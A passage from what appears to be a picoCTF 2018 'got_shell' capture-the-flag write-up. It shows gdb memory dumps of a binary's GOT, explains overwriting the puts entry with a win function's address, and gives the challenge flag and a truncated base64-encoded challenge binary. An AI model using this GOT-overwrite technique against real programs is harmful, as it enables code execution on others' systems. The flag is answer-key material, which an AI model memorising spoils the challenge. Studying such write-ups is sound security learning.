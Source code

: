> ```
>gdb-peda$ x/20wx 0x0804a000
>0x804a000:	0x08049f14	0x00000000	0x00000000	0x080483d6
>0x804a010:	0x080483e6	0x080483f6	0x08048406	0x08048416
>0x804a020:	0x08048426	0x08048436	0x00000000	0x00000000
>0x804a030 <stdout@@GLIBC_2.0>:	0x00000000	0x00000000	Cannot access memory at address 0x804a038
> ```

and print where these addresses point to:

> ```
>gdb-peda$ x/x 0x080483d6
>0x80483d6 <puts@plt+6>:	0x00000068
>gdb-peda$ x/x 0x080483e6
>0x80483e6 <system@plt+6>:	0x00000868
>gdb-peda$ x/x 0x080483f6
>0x80483f6 <exit@plt+6>:	0x00001068
> ```

Since `puts` is called after the overwriting, we decided to smash its address, located at `0x804a00c`, by `win`'s address.

![exploit](/assets/res/CTFs/pico18/got_shell/exploit.png)

FLAG: **picoCTF{m4sT3r_0f_tH3_g0t_t4b1e_150b198c}**

Binary:

f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAUIQECDQAAADYGAAAAAAAADQAIAAJACgAHwAcAAYAAAA0
AAAANIAECDSABAggAQAAIAEAAAUAAAAEAAAAAwAAAFQBAABUgQQIVIEECBMAAAATAAAABAAAAAEA
AAABAAAAAAAAAACABAgAgAQI3AgAANwIAAAFAAAAABAAAAEAAAAIDwAACJ8ECAifBAgoAQAAMAEA
AAYAAAAAEAAAAgAAABQPAAAUnwQIFJ8ECOgAAADoAAAABgAAAAQAAAAEAAAAaAEAAGiBBAhogQQI
RAAAAEQAAAAEAAAABAAAAFDldGTEBwAAxIcECMSHBAg0AAAANAAAAAQAAAAEAAAAUeV0ZAAAAAAA
AAAAAAAAAAAAAAAAAAAABgAAABAAAABS5XRkCA8AAAifBAgInwQI+AAAAPgAAAAEAAAAAQAAAC9s
aWIvbGQtbGludXguc28uMgAABAAAABAAAAABAAAAR05VAAAAAAACAAAABgAAACAAAAAEAAAAFAAA
AAMAAABHTlUAXB+EsDS0kGzOA2w3SNS1pcPq4NgCAAAACQAAAAEAAAAFAAAAACMAIAkAAAAKAAAA
KR2MHK1L48AAAAAAAAAAAAAAAAAAAAAANgAAAAAAAAAAAAAAEgAAAEIAAAAAAAAAAAAAABIAAABj
AAAAAAAAAAAAAAAgAAAAGgAAAAAAAAAAAAAAEgAAAFEAAAAAAAAAAAAAABIAAABJAAAAAAAAAAAA
AAASAAAAHwAAAAAAAAAAAAAAEgAAACcAAAAAAAAAAAAAABIAAAA7AAAAMKAECAQAAAARABoACwAA
AOyGBAgEAAAAEQAQAABsaWJjLnNvLjYAX0lPX3N0ZGluX3VzZWQAZXhpdABzcHJpbnRmAF9faXNv
Yzk5X3NjYW5mAHB1dHMAc3Rkb3V0AHN5c3RlbQBzZXR2YnVmAF9fbGliY19zdGFydF9tYWluAF9f
Z21vbl9zdGFydF9fAEdMSUJDXzIuNwBHTElCQ18yLjAAAAACAAIAAAACAAIAAgACAAMAAgABAAEA
AgABAAAAEAAAAAAAAAAXaWkNAAADAHIAAAAQAAAAEGlpDQAAAgB8AAAAAAAAAPyfBAgGAwAAMKAE
CAUJAAAMoAQIBwEAABCgBAgHAgAAFKAECAcEAAAYoAQIBwUAABygBAgHBgAAIKAECAcHAAAkoAQI
BwgAAFOD7Ajo4wAAAIHDYxwAAIuD/P///4XAdAXojgAAAIPECFvDAAAAAAAAAAAA/zUEoAQI/yUI
oAQIAAAAAP8lDKAECGgAAAAA6eD/////JRCgBAhoCAAAAOnQ/////yUUoAQIaBAAAADpwP////8l
GKAECGgYAAAA6bD/////JRygBAhoIAAAAOmg/////yUgoAQIaCgAAADpkP////8lJKAECGgwAAAA
6YD/////JfyfBAhmkAAAAAAAAAAAMe1eieGD5PBQVFJo0IYECGhwhgQIUVZoZIUECOiP////9GaQ
ZpBmkGaQZpBmkGaQixwkw2aQZpBmkGaQZpBmkLgzoAQILTCgBAiD+AZ2GrgAAAAAhcB0EVWJ5YPs
FGgwoAQI/9CDxBDJ88OQjXQmALgwoAQILTCgBAjB+AKJwsHqHwHQ0fh0G7oAAAAAhdJ0ElWJ5YPs
EFBoMKAECP/Sg8QQyfPDjXQmAI28JwAAAACAPTSgBAgAdRNVieWD7AjofP///8YFNKAECAHJ88Nm
kLgQnwQIixCF0nUF65ONdgC6AAAAAIXSdPJVieWD7BRQ/9KDxBDJ6XX///9VieWD7AiD7Axo8IYE